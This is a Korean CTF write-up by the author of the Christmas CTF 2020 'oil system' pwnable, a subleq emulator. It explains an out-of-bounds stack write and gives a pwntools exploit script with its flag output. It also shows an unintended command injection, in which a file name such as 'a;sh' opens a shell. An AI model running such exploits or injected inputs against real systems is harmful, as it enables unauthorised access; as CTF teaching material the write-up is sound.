

---

title: "[Write-Up] Christmas CTF 2020 - oil system"
author: Fabu1ous
tags: [Fabu1ous, oob, pwnable]
categories: [Write-Up]
date: 2020-12-29 21:00:00
cc: true
index_img: /2020/12/29/fabu1ous/oil-system/1.png
---

# 머릿말

CVE-2020–15647는 Firefox Fennec v68.9.0에서 발생하는 Arbitrary local file access입니다. 파일을 Cache 할 때 해당 파일의 이름을 해쉬 해야 하지만 Firefox Fennec v68.9.0의 `content:// URI` 로직엔 존재하지 않기 때문에 Arbitrary local file access가 발생합니다. 이런 상황을 pwnable 문제로 구현해봤는데...


unintended solution으로 커멘드 인젝션이 존재합니다. 상위권 솔브가 모두 커멘드 인젝션이더군요... 하하하. 문제 검수 단계에서 커멘드 인젝션에 대한 말이 나와서 수정하고 검증까지 했는데 수정 안된 버전이 대회 때 올라갔네요.

oil-system 문제를 풀어주신 분들께 정말 죄송합니다. 조금 더 철저하게 준비했어야 됐는데...


# 풀이 요약




문제 바이너리는 subleq이라는 One-Instruction-Language system 에뮬레이터입니다. subleq 코드를 담고 있는 파일에서 데이터를 읽어와 스택에 저장하고 그 코드를 해석해 동작합니다. subleq코드를 해석하는 함수에 OOB 취약점이 존재해 리턴 값을 조작할 수 있습니다. subleq 코드를 담고 있는 파일을 cache 하는 루틴도 존재하는데 파일의 경로만 바뀔 뿐 파일명을 유지합니다. Write Code 기능으로 flag라는 파일을 생성하고 실제 flag파일이 cache 되도록 리턴 값을 유도하면 됩니다.


# 취약점

* OOB


위 사진은 함수 subleq()의 코드입니다. a2의 index로 사용되는 v4와 v5의 최댓값이 존재하지 않기 때문에 oob write가 가능합니다. v4와 v5값를 이용해 a2보다 높은 주소에 있는 스택 어디든 참조할 수 있게 되고 리턴 값을 오염시킬 수 있습니다.


# Exploit

```python
from pwn import*

p = remote('localhost', 1234)

# Write Code
p.sendlineafter('> ', '2')
p.sendafter('Enter your Program\'s Name : ', 'flag')
p.sendlineafter('Enter Code : ','4 166 -1 -1 -1054')

# Run Code
p.sendlineafter('> ', '3')

# Get flag with View Cached code
p.sendlineafter('> ', '4')

p.interactive()
```

```
[+] Opening connection to localhost on port 1234: Done
[*] Switching to interactive mode
XMAS{U5e_Ma11oc_Nex7_tim3_Mr_Kim}

 ========[ Menu ]========
 1. Read test description
 2. Write Code
 3. Run Code
 4. View Cached code
 > TIMEOUT
[*] Got EOF while reading in interactive
```


# Command injection

* unintended solution


파일명 필터 함수입니다. 파일명에 영문 소문자 이외의 입력이 들어온다면 프로세스를 종료합니다. 안타깝게도 유심히 보시면 첫 글자만 검사한다는 것을 알 수 있습니다. <s>문제 만든 놈이 픵신인듯</s>

```plain
 ========[ Menu ]========
 1. Read test description
 2. Write Code
 3. Run Code
 4. View Cached code
 > 2

 Enter your Program's Name : a;sh

 Enter Code : your an idiot

 ========[ Menu ]========
 1. Read test description
 2. Write Code
 3. Run Code
 4. View Cached code
 > 3
 Error while fopen
$ cat flag
XMAS{U5e_Ma11oc_Nex7_tim3_Mr_Kim}
$
```

